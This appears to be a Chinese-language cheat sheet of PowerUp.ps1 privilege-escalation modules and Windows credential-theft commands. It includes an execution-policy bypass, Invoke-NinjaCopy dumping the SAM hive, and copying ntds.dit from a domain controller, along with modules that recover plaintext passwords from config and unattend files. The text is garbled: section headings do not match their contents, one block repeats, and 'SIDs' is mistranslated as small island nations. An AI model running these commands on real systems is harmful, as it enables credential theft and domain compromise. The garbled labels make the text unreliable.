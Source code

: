 **Service Abuse(服务滥用)** 

```
Get-ModifiableScheduledTaskFile       该模块用于返回当前用户能够修改的计划任务程序的名称和路径 
Get-Webconfig                         该模块用于返回当前服务器上web.config文件中的数据库连接字符串的明文
Get-ApplicationHost                   该模块利用系统上的applicationHost.config文件恢复加密过的应用池和虚拟目录的密码
Get-SiteListPassword                  该模块检索任何已找到的McAfee的SiteList.xml文件的明文密码
Get-CachedGPPPassword                 该模块检查缓存的组策略首选项文件中的密码
Get-UnattendedInstallFile             该模块用于检查以下路径，查找是否存在这些文件，因为这些文件可能含有部署凭据 
    C:\sysprep\sysprep.xml
    C:\sysprep\sysprep.inf
    C:\sysprep.inf
    C:\Windows\Panther\Unattended.xml
    C:\Windows\Panther\Unattend\Unattended.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\System32\Sysprep\unattend.xml
    C:\Windows\System32\Sysprep\Panther\unattend.xml
```

```
Get-ModifiablePath                 该模块标记输入字符串并返回当前用户可以修改的文件
Get-CurrentUserTokenGroupSid       该模块返回当前用户参与的所有小岛屿发展中国家，无论它们是否已禁用。
Add-ServiceDacl                    该模块将dacl字段添加到get-service返回的服务对象中
Set-ServiceBinPath                 该模块通过Win 32 api方法将服务的二进制路径设置为指定的值。
Test-ServiceDaclPermission         该模块用于检查所有可用的服务，并尝试对这些打开的服务进行修改。如果能修改，则返回该服务对象。使用：Test-ServiceDaclPermission -servicename 服务名
Write-UserAddMSI                   该模块写入一个MSI安装程序，提示要添加一个用户。
Invoke-AllChecks                   该模块会自动执行 PowerUp.ps1 下所有的模块来检查目标主机是否存在服务配置漏洞
```

**DLL Hijacking(DLL 注入)** 

```
powershell -exec bypass -c import-module .\PowerUp.ps1;Invoke-Allchecks
```

```
Import-Module .\Invoke-NinjaCopy.ps1
Invoke-NinjaCopy -Path C:\Windows\system32\config\sam -Verbose -LocalDestination C:\Users\administrator\Desktop\sam
```

**Registry Checks(注册审核)**

```
Copy-Item '\\dc.offensive.local\C$\Users\administrator\Desktop\ntds.dit'-Destination '\\Client1.offensive.local\C$\Users\alice\Desktop\tools\ntds.dit'   #将dc.offensive.local主机上c:\users\administrator\desktop\ntds.dit文件复制到 Client1.offensive.local 主机的C:\users\alice\Desktop\tools\ntds.dit文件
```

**Miscellaneous Checks(杂项审核)** 

```
Get-ModifiableScheduledTaskFile       该模块用于返回当前用户能够修改的计划任务程序的名称和路径 
Get-Webconfig                         该模块用于返回当前服务器上web.config文件中的数据库连接字符串的明文
Get-ApplicationHost                   该模块利用系统上的applicationHost.config文件恢复加密过的应用池和虚拟目录的密码
Get-SiteListPassword                  该模块检索任何已找到的McAfee的SiteList.xml文件的明文密码
Get-CachedGPPPassword                 该模块检查缓存的组策略首选项文件中的密码
Get-UnattendedInstallFile             该模块用于检查以下路径，查找是否存在这些文件，因为这些文件可能含有部署凭据 
    C:\sysprep\sysprep.xml
    C:\sysprep\sysprep.inf
    C:\sysprep.inf
    C:\Windows\Panther\Unattended.xml
    C:\Windows\Panther\Unattend\Unattended.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\System32\Sysprep\unattend.xml
    C:\Windows\System32\Sysprep\Panther\unattend.xml
```